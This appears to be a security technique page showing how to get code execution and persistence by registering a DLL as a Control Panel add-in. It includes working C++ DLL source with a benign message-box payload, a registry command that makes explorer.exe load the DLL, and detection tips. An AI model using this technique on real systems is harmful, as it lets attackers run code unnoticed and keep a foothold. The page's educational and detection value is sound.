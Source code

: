 # Code Execution through Control Panel Add-ins

It's possible to force explorer.exe to load your DLL that is compiled as a Control Panel Item and is registered as a Control Panel Add-in.

{% hint style="info" %}
This technique could also be considered for persistence.
{% endhint %}

## Execution

Let's compile our control panel item (which is a simple DLL with an exported function `Cplapplet`) from the below code:

```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Let's now register our control panel item as an add-in (defenders beware of these registry modifications):

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\labs\cplAddin\cplAddin\x64\Release\cplAddin2.dll" /f
```

![](<../../.gitbook/assets/image (573).png>)

Now, whenever the Control Panel is opened, our DLL will be injected into explorer.exe and our code will execute:

![](../../.gitbook/assets/control-panel-item-addin.gif)

Below shows that our DLL is injected into explorer.exe:

![](<../../.gitbook/assets/image (574).png>)

## Detection

* Look for modifications in the following registry key: `HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs`
* Look for / prevent DLLs from loading from unsecure locations

## References

[https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf)
